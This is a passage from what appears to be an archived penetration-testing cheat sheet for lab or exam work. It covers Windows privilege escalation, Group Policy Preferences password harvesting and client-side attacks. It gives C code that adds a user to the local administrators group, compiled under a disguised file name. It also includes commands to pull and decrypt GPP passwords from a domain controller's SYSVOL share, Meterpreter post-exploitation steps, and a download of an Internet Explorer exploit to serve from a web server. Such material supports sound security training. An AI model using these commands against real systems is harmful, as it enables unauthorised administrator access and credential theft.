 *   Compile a custom add user command in windows using C

        root@kali:~# cat useradd.c  
        #include <stdlib.h> /* system, NULL, EXIT_FAILURE */  
        int main ()  
        {  
        int i;  
        i=system ("net localgroup administrators low /add");  
        return 0;  
        }

    `i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c`

*   Group Policy Preferences (GPP)  
    A common useful misconfiguration found in modern domain environments is unprotected Windows GPP settings files

    *   map the Domain controller SYSVOL share

        `net use z:\\dc01\SYSVOL`

    *   Find the GPP file: Groups.xml

        `dir /s Groups.xml`

    *   Review the contents for passwords

        `type Groups.xml`

    *   Decrypt using GPP Decrypt

        `gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB`

*   Find and display the proof.txt or flag.txt - get the loot!

    `#meterpreter > run post/windows/gather/win_privs` `cd\ & dir /b /s proof.txt` `type c:\pathto\proof.txt`

# [](#client-web-and-password-attacks)Client, Web and Password Attacks

*   ## [](#client-attacks)Client Attacks

    *   MS12-037- Internet Explorer 8 Fixed Col Span ID  
        wget -O exploit.html [http://www.exploit-db.com/download/24017](http://web.archive.org/web/20171113221652/http://www.exploit-db.com/download/24017)  
        service apache2 start

    *   JAVA Signed Jar client side attack  
        echo '' > /var/www/html/java.html  
        User must hit run on the popup that occurs.

    *   Linux Client Shells  
        [_http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/_](http://web.archive.org/web/20171113221652/http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

    *   Setting up the Client Side Exploit
